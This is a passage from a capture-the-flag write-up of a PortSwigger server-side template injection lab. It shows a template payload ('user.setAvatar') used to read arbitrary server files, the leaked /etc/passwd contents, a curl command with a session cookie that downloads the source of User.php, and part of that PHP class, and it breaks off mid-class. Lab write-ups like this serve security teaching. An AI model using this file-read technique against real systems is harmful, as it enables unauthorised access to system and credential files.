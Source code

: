 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224010459.png)

> Note: You can also send a GET request to `/avatar?avatar=wiener` to download it.

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Server-Side-Template-Injection]
└─# cat /home/nam/Downloads/avatar 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```

**Boom! We have local file read!**

Hmm... Now we have local file read, but how to delete `carlos`'s private SSH key(`id_rsa`)?

**If we have local file read, let's read the source code of `/home/carlos/User.php`!**
```php
user.setAvatar('/home/carlos/User.php','image/png')
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Server-Side-Template-Injection/SSTI-7/images/Pasted%20image%2020221224010950.png)

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Server-Side-Template-Injection]
└─# curl https://0ad70054043a656fc360ed500022001c.web-security-academy.net/avatar --cookie "session=xsy5TfCl8CHOw6Q2GAm9MP741h7RiHrV" --get --data-urlencode "avatar=wiener" -o User.php
```

**User.php:**
```php
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
```